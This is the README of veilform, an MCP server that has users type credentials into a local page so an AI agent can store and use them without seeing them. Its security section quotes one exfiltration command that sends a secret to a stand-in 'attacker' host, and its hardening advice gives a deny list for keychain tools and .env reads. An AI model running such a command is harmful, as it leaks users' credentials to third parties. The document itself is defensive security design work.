






<div align="center">

**English** · [Español](README.es.md)


# veilform

**Let an AI agent ask for, store and use credentials — without ever seeing them.**

[](https://github.com/asteby/veilform/actions/workflows/ci.yml) [](LICENSE) [](package.json) [](https://modelcontextprotocol.io)

[Threat model](THREAT-MODEL.md) · [Security policy](SECURITY.md) · [Changelog](CHANGELOG.md)

</div>

`veilform` is an open-source [Model Context Protocol](https://modelcontextprotocol.io) server (stdio, TypeScript). The agent sends **only metadata** (a form schema); you type the values in a page served on `http://127.0.0.1`; they go straight to a destination you allowlisted. The agent gets back names and statuses, never values.

## Why

- **Secrets pasted into a chat stay in the chat.** Once a key is in the conversation it is part of the model's context and of whatever the client stores. veilform keeps the value on a local page and out of the conversation.
- **Agents need to *use* credentials, not read them.** The agent writes `${secret:NAME}`; the server resolves it inside its own process at the moment of use, after you approve the literal action, and scrubs the output.
- **Real work is more than one API key.** Price lists pasted from a spreadsheet, customer data, SSH keys for a new server, a token that has to end up in a production `.env`: all with the same flow and an audit trail.

**Without veilform**

```text
You:   here's the token: APP_USR-4821-…-9f3c
Agent: Thanks! Writing it to /etc/acme.env:
       MP_ACCESS_TOKEN=APP_USR-4821-…-9f3c

↳ the value is now in the model's context
  and in the conversation history.
```

**With veilform**

```text
Agent: secret_request({fields:[{name:"MP_ACCESS_TOKEN"}]})
       → a local page opens; you paste the token there
Agent: ← {status:"completed", stored:["MP_ACCESS_TOKEN"]}
Agent: secret_write({name:"MP_ACCESS_TOKEN",
         target:{kind:"env-file", host:"prod-vps", …}})
       → you approve the exact write
Agent: ← {written:true, keys:[{key:"MP_ACCESS_TOKEN", action:"updated"}]}
```

## How it works


1. The model calls a tool with metadata only. Destinations, hosts, paths, tables and sites must be in **your** config (allowlist).
2. A one-time link `http://127.0.0.1:<port>/p/<256-bit token>` reaches you via **MCP URL elicitation** when the client supports it (otherwise it is returned for the client to show, and opened with `xdg-open`/`open` if `ui.openBrowser`). The first browser that opens it binds it with an HttpOnly cookie; it expires in 10 min.
3. You fill in or approve. CSRF token + Origin/Host checks + strict nonce CSP; nothing third-party; no autocomplete.
4. Values go to the destination from this process (stdin/env, never argv; never logged).
5. Tool results are structural; a final scrub removes any handled value and its encodings.
6. Every use is audited (hash-chained JSONL). `veilform verify-audit` checks the chain.

## Capabilities

| | Capability | Tools | What the model gets |
|---|---|---|---|
|  | **Blind forms** — secrets, or rich schemas: sections, number/money/date/select/multiselect/boolean/file, `showIf`, repeatable tables with CSV / spreadsheet paste, preview | `secret_request`, `blind_input`, `blind_input_preview`, `secret_wait` | `{stored:[names]}`, `{rows_written, ids}`, `{field, code}` errors |
|  | **Use without seeing** — `exec` / `http` with `${secret:NAME}`, approval page shows the literal action | `secret_use` | exit code / HTTP status + **redacted** output |
|  | **Web capture** — a Chromium window owned by the server; you log in, it extracts the value DOM → store | `web_capture`, `web_login` | `{stored:[name]}` or `{failed_step, error_code}` — never page text |
|  | **SSH keys** — generate, install with a one-time password, test, run commands | `ssh_key_provision`, `ssh_exec` | fingerprints, access test, redacted output |
|  | **Write to where it's needed** — `.env` (local or over SSH), JSON/YAML, systemd, GitHub Actions secrets, clipboard; form sinks to SQL (Postgres), HTTP APIs, files | `secret_write`, `blind_input` sinks | `{written, target, keys:[{key, action}]}` |
|  | **Stores** — OS keychain, encrypted file (AES-256-GCM), `.env`, file over SSH, Vault KV v2, Infisical, 1Password Connect, OPS | `secret_list`, `secret_delete`, `secret_rotate` | names + metadata (created, last used, expiry, rotation due) |

## What it looks like

Real screenshots of the local pages, regenerated with Playwright from the actual UI (sample data: “Acme Store”). They follow your GitHub theme.

<p align="center"></p>

<table>
<tr>
<td width="50%" valign="top"><b>Secret form</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/en/form-dark.webp"></picture></td>
<td width="50%" valign="top"><b>Table pasted from a spreadsheet</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/en/table-dark.webp"></picture></td>
</tr>
<tr>
<td valign="top"><b>Approval shows the literal command</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/en/approval-dark.webp"></picture></td>
<td valign="top"><b>Destination confirmation (SQL upsert, dry run)</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/en/destination-dark.webp"></picture></td>
</tr>
<tr>
<td colspan="2" align="center"><b>Mobile</b><br>
<picture><source media="(prefers-color-scheme: dark)" srcset="docs/assets/shots/en/mobile-dark.webp"></picture></td>
</tr>
</table>

## Install in Claude Code

Requirements: Node ≥ 20.11 and pnpm. Not published to npm yet, so install from a clone:

```bash
git clone https://github.com/asteby/veilform && cd veilform
pnpm install && pnpm build
claude mcp add veilform -- node "$PWD/dist/cli.js"
```

Then ask the agent for something that needs a credential (“set up the payment provider token for production”) and it will open the local page. Once published: `claude mcp add veilform -- npx -y veilform`.

<details>
<summary><b>Configuration and optional dependencies</b></summary>

- Configuration is an **allowlist**: copy [`examples/config.example.json`](examples/config.example.json) to `~/.config/veilform/config.json` and keep only what you need. Without a config file there is one destination, `local` (OS keychain). Check it with `veilform check-config`.
- Linux needs `secret-tool` (package `libsecret-tools`) for the keychain destination; macOS uses the built-in `security`. Optional: `playwright-core` + Chromium for `web_capture`, `psql` for SQL sinks, `gh` for GitHub secrets, OpenSSH for SSH features.
- Environment: `VEILFORM_HOME` (default `~/.config/veilform`), `VEILFORM_CONFIG`, `VEILFORM_AGENT` (label written to the audit log).
- Recommended Claude Code hardening (`.claude/settings.json`): deny the agent's own tools access to what this server protects, e.g. `"deny": ["Read(~/.config/veilform/**)", "Bash(secret-tool:*)", "Bash(security:*)", "Read(**/.env)"]`.

</details>

## Examples

**Stripe key, then a call:** `secret_request({title:"Stripe", fields:[{name:"STRIPE_KEY", label:"Secret key", pattern:"sk_(live|test)_[A-Za-z0-9]+"}]})` → you paste it in the local page → `{stored:["STRIPE_KEY"]}` → `secret_use({action:"http", method:"GET", url:"https://api.stripe.com/v1/balance", headers:{Authorization:"Bearer ${secret:STRIPE_KEY}"}})` → the approval page shows exactly that request → `{http_status:200, body:"…"}` (the key is redacted if the API echoes it).

**Token to a production `.env` over SSH:** `secret_write({name:"MP_ACCESS_TOKEN", target:{kind:"env-file", host:"prod-vps", path:"/etc/myapp/myapp.env", key:"MP_ACCESS_TOKEN"}, dry_run:true})` → `{changes:[{key:"MP_ACCESS_TOKEN", action:"updated"}]}`. Without `dry_run`, after your approval, the server reads the remote file over SSH, changes only that key (comments and other keys kept), uploads it on stdin to a temp file, `chmod 0600`, optional `chown`/backup, and `mv` atomically.

**Capture a token from a web panel without the model seeing it:** `web_capture({site:"mercadopago", name:"MP_ACCESS_TOKEN", steps:[…], extract:{selector:"[data-testid=access-token]", regex:"(APP_USR-[\\w-]+)"}})` — a Chromium window owned by this server opens; **you** log in (password/2FA never touch the model); you can edit the steps on the approval page; the value goes DOM → store.

**SSH key for a new VPS:** `ssh_key_provision({host:"prod-vps", alias:"deploy_key", password:true})` → the page shows the host-key fingerprint to compare with your provider, asks the one-time root password, installs the public key, tests access. Then `ssh_exec({host:"prod-vps", command:"systemctl restart myapp"})`.

**Batch of USD prices into Postgres:** `blind_input` with a repeater `rows:[sku, price(money USD)]` and sink `{type:"sql", database:"appdb", table:"public.product_prices", mode:"upsert", rows:"rows", columns:{…}, dry_run:true}`. You paste the rows from a spreadsheet; values travel as `COPY … FROM STDIN` data into a typed temp table and `INSERT … SELECT` in one transaction (never as SQL text).

**Sensitive customer data:** `blind_input` with `name, email, tax id (pattern), phone` and an `http` sink to your CRM; the model receives only the created ids.

## Security

**What it protects**

- Values never enter the model's context: tool results are structural (names, statuses, counts, ids, error codes), and a last-line scrub removes any handled value and its common encodings. Property tests check that tool responses, the JSON-RPC wire, the audit log and stderr never contain the value.
- Values never go into argv of spawned processes (stdin, env, FIFOs instead) or into logs.
- The local page is single-use, bound to `127.0.0.1`, with CSRF, Origin/Host and DNS-rebinding checks and a strict CSP; model-provided text is rendered with `textContent` only.
- Every **new** action (command, HTTP request, write target, sink, SSH command, capture plan) needs a click on a page that shows it literally. “Remember” is keyed to the exact fingerprint; any change asks again.

**What it does not protect** (read the [threat model](THREAT-MODEL.md))

- An action **you approve** that sends or transforms the value (`curl https://attacker/?k=${secret:X}`). The approval page shows the literal action and warns on shells and network/encoding tools, but you decide.
- Malware or an agent with an unrestricted shell running as **your OS user**: it can read the keychain and the files veilform writes. Restrict the agent's tools (see the hardening above) or sandbox it.
- **A browser the model can see** (browser extension, Playwright MCP, computer use) opening a page that shows a secret. Use `web_capture`, which returns nothing but status.
- Redaction is heuristic: very short values and exotic encodings are not detected. JavaScript strings cannot be zeroised.

## How it compares

Other good tools attack nearby problems. They are often complementary rather than alternatives. Descriptions are based on each project's public documentation; check it for current details.

| Approach | What it solves well | Where veilform fits |
|---|---|---|
| **Password managers / 1Password** (`op run`, `op://` references, Connect) | Storing and sharing secrets for people and teams, policies, rotation. 1Password has [publicly stated](https://1password.com/blog/where-mcp-fits-and-where-it-doesnt) it will not expose raw credentials through MCP and favours injecting them on the agent's behalf. | veilform can use **1Password Connect as a destination**: you type the value in the local form and it is written there server to server. |
| **HashiCorp Vault / Infisical** | Central secret storage with access policies, audit, leases and (in Vault) dynamic secrets. | Also **destinations** (`vault-kv2`, `infisical` adapters). veilform adds the human intake step and per-action approval for agent-driven use. |
| **Injection proxies and brokers** for agents (e.g. [OneCLI](https://github.com/onecli/onecli), [BlindKey](https://github.com/leocelis/blindkey)) | The agent uses placeholders and a gateway/broker swaps in the real credential when the request leaves; well suited to frequent API calls. | Focuses on getting values **in** (forms, tables, web capture, SSH keys) and **out to places** (`.env` over SSH, SQL, GitHub secrets), each with a literal approval. A proxy can handle high-volume runtime calls alongside it. |

## Development

```bash
pnpm install
pnpm typecheck && pnpm lint && pnpm test   # vitest: unit, property, simulated APIs, sshd loopback, Postgres (docker) if available
pnpm test:e2e                              # Playwright: form, repeater/CSV, approval, clipboard, preview, single-use link
```

README visuals: `node scripts/readme-assets/make-svgs.mjs` (animated SVGs and icons) and `npx playwright test --config scripts/readme-assets/playwright.config.ts` (screenshots and recording from the real UI; needs ffmpeg with libwebp).

Deviations from the original design brief (documented): the keychain uses the platform CLIs instead of `@napi-rs/keyring` (no native addon); `encrypted-file` uses Node's AES-256-GCM + scrypt instead of age/libsodium; property tests use a small seeded PRNG instead of `fast-check`. All three because the build had to work offline with the cached dependencies, and they keep the runtime dependency list to the MCP SDK and zod.

## License

[MIT](LICENSE)
